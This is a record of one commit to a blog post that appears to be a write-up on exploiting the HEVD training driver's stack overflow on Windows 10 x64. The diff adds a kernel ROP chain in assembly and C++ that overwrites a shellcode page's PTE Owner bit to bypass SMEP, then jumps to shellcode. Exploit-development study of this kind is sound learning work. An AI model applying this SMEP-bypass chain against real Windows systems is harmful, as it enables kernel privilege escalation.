

Before and after one commit to Kristal-g/kristal-g.github.io, a Jekyll site: the page built from 2021-01-15-HEVD_StackOverflowGS_Windows_10_RS5_x64.md, in a window 1280 px wide and 900 px high, scrolled down 8670 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
plz final 2

````diff
--- a/2021-01-15-HEVD_StackOverflowGS_Windows_10_RS5_x64.md
+++ b/2021-01-15-HEVD_StackOverflowGS_Windows_10_RS5_x64.md
@@ -244,8 +244,23 @@ ULONGLONG wantedPteValue = readBuffer & ~0x4;
 Now we know what data we want to write (wantedPteValue) and where to write it to (shellcodePte). The actual writing will happen in the rop chain because we don't have an arbitrary write primitive.
 
 ## Putting it all together
-
-*INSERT ROP BUILDING HERE*
+The rop chain should do this:
+```x86asm
+pop rcx             ; rcx = shellcode's PTE address
+pop rax             ; rax = wanted pte value
+mov [rcx], rax      ; overwrite Owner bit in the PTE
+ret                 ; return to shellcode
+```
+So in our code it's like this:
+```cpp
+// Prepare the ROP chain
+*(ULONGLONG*)(inBuf + 568) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RCX);
+*(ULONGLONG*)(inBuf + 576) = (ULONGLONG)(shellcodePte);
+*(ULONGLONG*)(inBuf + 584) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RAX);
+*(ULONGLONG*)(inBuf + 592) = (ULONGLONG)(wantedPteValue);
+*(ULONGLONG*)(inBuf + 600) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + MOV_RAX_TO_PTR_RCX);
+* (ULONGLONG*)(inBuf + 608) = (ULONGLONG)(shellcode);
+```
 
 Tracing the exploit, we that our SMEP bypass worked and we successfully switched the Owner bit to Kernel mode.
 The shellcode address is ```0x27e04bd0000``` and we'll use the ```!pte``` command that shows us the parsed PTE struct:
````
